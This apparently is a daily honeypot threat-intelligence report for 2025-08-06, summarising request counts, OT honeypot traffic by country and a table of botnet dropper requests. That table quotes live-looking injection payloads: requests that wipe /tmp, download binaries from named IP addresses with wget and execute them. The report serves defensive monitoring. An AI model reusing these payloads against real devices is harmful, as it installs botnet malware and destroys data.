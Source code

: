 ```yaml
---
title: "Report: 2025-08-06 "
date: 2025-08-06
desciption: "Report: 2025-08-06" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-06 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 434 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1554 requests were recorded during the day, originating from 5 different countries, with a peak of 1034 requests coming from DE.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| KR               | Germany            |
| SG               | Germany            |
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                       |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 95.9.172.122   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                  |
| 41.36.82.96    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                  |
| 47.79.121.158  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                  |
| 217.145.72.208 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F89.42.88.241/Y91%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 156.208.51.209 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                  |
